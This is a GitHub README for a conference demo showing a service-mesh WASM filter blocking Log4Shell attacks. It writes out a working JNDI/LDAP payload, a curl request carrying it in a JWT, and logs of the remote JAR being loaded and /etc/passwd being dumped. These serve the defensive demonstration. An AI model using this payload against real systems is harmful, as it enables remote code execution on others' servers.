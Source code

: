 # ZTA and DevSecOps for Cloud Native Applications

This repository contains the materials for the *Service Mesh as the Security Kernel for Zero Trust Platforms*
demo presented at the NIST ZTA conference 2022.

## Contents

This demo contains three main applications:

* [log4shell-ldap](log4shell-ldap): A malicious LDAP server that can be used to exploit the `Log4Shell` CVEs.
* [vulnerable-app](vulnerable-app): An application that uses an old and insecure Java runtime and a vulnerable
   version of the `log4j` library.
* [wasm-patch](wasm-patch): An [Envoy](https://www.envoyproxy.io/) [WASM extension](https://github.com/proxy-wasm/spec) written
  in Go using the [proxy-wasm-go-sdk](https://github.com/tetratelabs/proxy-wasm-go-sdk) that inspects requests and
  rejects those that contain `Log4Shell` payloads.

See the [hacking](#hacking) section for details about how to customize them.

## Build requirements

* [Go 1.17](https://go.dev/dl/) or higher.
* [TinyGo](https://tinygo.org/) to compile and build the WASM plugin.

## Hacking

The behavior of the applications can be customized by modifying the [GreetingsServlet.java](vulnerable-app/src/main/java/io/tetrate/log4shell/vulnerable/GreetingsServlet.java)
(vulnerable application) and the [Log4shellExploit.java](log4shell-ldap/exploit/src/main/java/io/tetrate/log4shell/exploit/Log4shellExploit.java) (exploit).

The current implementation of the exploit reads malicious LDAP lookup strings and parses a Base64-encoded command that is then executed. For example, the
malicious string `"${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}"` will instruct the exploit to execute a `cat /etc/passwd` command. The vulnerable
application logs the value of the `name` claim in a JWT token, so if the malicious payload is set there, the exploit will be triggered.

### Running applications locally

The three applications can be easily run locally, although you won't be able to try all the [Istio](https://istio.io/)
features showcased in the demo. However, it is enough to get the applications running and to be able to play with them
and the WASM plugin.

You can start the applications locally with:

```bash
make -C wasm-patch clean compile  # docker-compose needs the WASM binary to have been compiled
docker-compose build
docker-compose up
```

This will build the necessary images and start all of them. The vulnerable application is exposed as follows:

* `http://localhost:8080` - Direct access to the vulnerable application.
* `http://localhost:8000` - Access through Envoy, which includes filtering with the WASM plugin.

To test it, you can send a request to the application or Envoy proxy with a JWT Bearer token in the Authorization header.
The contents of the "sub" claim in the provided token will trigger the attack vector, if present. For example:

**Executing the requests directly against the vulnerable app**

```bash
$ curl http://localhost:8080
Welcome, anonymous!
Accessing: /

$ curl http://localhost:8080 -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NDMyMTY1NTEsImlhdCI6MTY0MzIxMjk1MSwiaXNzIjoidGV0cmF0ZS5pbyIsIm5hbWUiOiIke2puZGk6bGRhcDovL2xvZzRzaGVsbDoxMzg5L2V4ZWMvWTJGMElDOWxkR012Y0dGemMzZGtDZz09fSIsInN1YiI6ImFkbWluIn0.KTpoau4cr75ifcvESisRnwJP6_8fxzLrY2MsvgPBITI"
Welcome, ${jndi:ldap://log4shell:1389/exec/Y2F0IC9ldGMvcGFzc3dkCg==}!
Accessing: /
```

We can see that the exploit was triggered by inspecting the vulnerable app logs:

```
log4shell_1   | received request from 192.168.160.3:37650
log4shell_1   | delivering malicious LDAP payload: {cn=pwned, exec/Y2F0IC9ldGMvcGFzc3dkCg== [{cn [pwned]} {javaClassName [io.tetrate.log4shell.exploit.Log4shellExploit]} {javaCodeBase [http://log4shell:3000/log4shell-exploit-1.0-SNAPSHOT.jar]} {objectclass [javaNamingReference]} {javaFactory [io.tetrate.log4shell.exploit.Log4shellExploit]}]}
vulnerable_1  | /!\ /!\ /!\ You have been pwned!
vulnerable_1  | /!\ /!\ /!\ RCE exploit loaded
vulnerable_1  | /!\ /!\ /!\ Executing: cat /etc/passwd
vulnerable_1  |
vulnerable_1  | root:x:0:0:root:/root:/bin/bash
vulnerable_1  | daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
vulnerable_1  | bin:x:2:2:bin:/bin:/usr/sbin/nologin
vulnerable_1  | sys:x:3:3:sys:/dev:/usr/sbin/nologin
vulnerable_1  | sync:x:4:65534:sync:/bin:/bin/sync
vulnerable_1  | games:x:5:60:games:/usr/games:/usr/sbin/nologin
vulnerable_1  | man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
vulnerable_1  | lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
vulnerable_1  | mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
vulnerable_1  | news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
vulnerable_1  | uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
vulnerable_1  | proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
vulnerable_1  | www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
vulnerable_1  | backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
vulnerable_1  | list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
vulnerable_1  | irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
vulnerable_1  | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
vulnerable_1  | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
vulnerable_1  | systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
vulnerable_1  | systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
vulnerable_1  | systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
vulnerable_1  | systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
vulnerable_1  | messagebus:x:104:108::/var/run/dbus:/bin/false
vulnerable_1  |
vulnerable_1  | 13:40:09.410 [qtp1316061703-12] INFO  io.tetrate.log4shell.vulnerable.GreetingsServlet - welcoming user: pwned!
```

**Executing the requests against the Envoy proxy**

When running the requests through the proxy we can see the access being denied as the traffic is filtered by the WASM plugin.

```bash
$ curl http://localhost:8000
Welcome, anonymous!
Accessing: /

$ curl http://localhost:8000 -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NDMyMTY1NTEsImlhdCI6MTY0MzIxMjk1MSwiaXNzIjoidGV0cmF0ZS5pbyIsIm5hbWUiOiIke2puZGk6bGRhcDovL2xvZzRzaGVsbDoxMzg5L2V4ZWMvWTJGMElDOWxkR012Y0dGemMzZGtDZz09fSIsInN1YiI6ImFkbWluIn0.KTpoau4cr75ifcvESisRnwJP6_8fxzLrY2MsvgPBITI"
Access Denied
```

## ZTA demo step by step

If you want to play with the demo, you can follow the step by step guide in the [DEMO.md](DEMO.md) file.
